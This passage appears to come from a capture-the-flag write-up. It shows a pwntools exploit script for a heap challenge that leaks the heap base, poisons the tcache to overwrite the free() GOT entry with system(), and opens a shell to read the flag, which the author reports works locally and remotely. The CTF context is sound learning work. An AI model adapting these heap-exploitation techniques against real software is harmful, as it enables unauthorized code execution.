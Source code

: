```
def free_horse(idx):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())

def race_horse():
    r.sendlineafter(b'Choice: ', b'3')

def exploit():
    # leak heap
    add_horse(0, 0x10, b'A' * 0x10)
    free_horse(0)
    add_horse(0, 0x10, b'\xFF')
    # fill system GOT
    for i in range(1, 5):
        add_horse(i, 0x10, b'X' * 0x10)
    race_horse()
    r.recvuntil(b' ')
    heap_base = u32(r.recvn(10).strip().ljust(4, b'\x00')) << 12
    log.info('heap_base: %#x', heap_base)
    r.recvuntil(b'WINNER:')
    # tcache list
    add_horse(10, 0x18, b'A' * 0x18)
    add_horse(11, 0x18, b'B' * 0x18)
    free_horse(10)
    free_horse(11)
    # change tcache bins to free GOT
    free_got = 0x404010
    edit_horse(11, p64(free_got ^ (heap_base >> 12)) + p64(heap_base + 0x10), 1)
    add_horse(12, 0x18, b'/bin/sh\0' + b'C' * 0x10)
    # change free GOT to system
    ret_gadget = 0x401E48
    system_plt = 0x401090
    payload = flat(
        p64(0),
        p64(system_plt),
        p64(ret_gadget),
    )
    add_horse(13, 0x18, payload)
    free_horse(12)
    r.sendline(b'cat flag.txt')
    r.interactive()

if __name__ == '__main__':
    exploit()

```

Runnig it locally works
![image](https://user-images.githubusercontent.com/113513376/229090221-a34ca54b-880a-4468-85fa-525c55dc2460.png)

Running it remotely works also (set LOCAL=False in script)
![image](https://user-images.githubusercontent.com/113513376/229091308-e940ba8a-e3eb-405d-8368-cbbe342c0468.png)




